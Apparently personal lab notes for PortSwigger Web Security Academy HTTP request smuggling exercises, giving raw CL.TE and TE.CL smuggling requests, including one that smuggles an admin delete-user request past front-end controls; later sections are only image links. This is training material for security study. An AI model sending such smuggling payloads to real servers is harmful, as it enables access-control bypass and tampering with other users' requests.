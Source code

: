 ____

# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses


```
POST / HTTP/1.1
Host: 0ad900fc04a5e02480c97b4300e60060.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

![[Pasted image 20240815043936.png]]


# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![[Pasted image 20240815060930.png]]

# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

![[Pasted image 20240815063631.png]]

```
tRANSFER-ENCODING: chunked
Connection: close

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
X-Ignore: X
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Host: localhost

x=
```

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

![[Pasted image 20240815131026.png]]

# Exploiting HTTP request smuggling to reveal front-end request rewriting

The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

![[Pasted image 20240815133129.png]]


![[Pasted image 20240815133321.png]]

# Exploiting HTTP request smuggling to capture other users' requests

![[Pasted image 20240816042904.png]]

![[Pasted image 20240816042931.png]]

# Exploiting HTTP request smuggling to deliver reflected XSS

![[Pasted image 20240816045156.png]]

